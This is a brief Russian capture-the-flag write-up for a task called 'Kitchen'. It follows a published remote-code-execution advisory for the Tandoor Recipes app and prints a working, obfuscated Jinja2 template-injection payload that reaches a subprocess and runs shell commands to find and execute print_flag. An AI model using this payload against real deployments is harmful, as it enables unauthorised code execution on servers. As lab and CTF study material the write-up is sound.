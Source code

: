 # Kitchen
решил <a href="https://t.me/bazonavt">@bazonavt</a>

1. Региструемся, исследуем сервис
2. Нажав на иконку пользователя в правом врехнем углу, видим, что есть Github
3. Заходим в Security, переходим по эксплоиту <a href="https://github.com/TandoorRecipes/recipes/security/advisories/GHSA-r6rj-h75w-vj8v">RCE</a> (так как в задании просят запустить `print_flag`)
4. Делаем `ls -aR /`:
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(418)('ls -aR',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```
5. Через `Ctrl+F` находим директорию, где расположен `print_flag`
6. Аналогично запускаем `print_flag` и получаем флаг
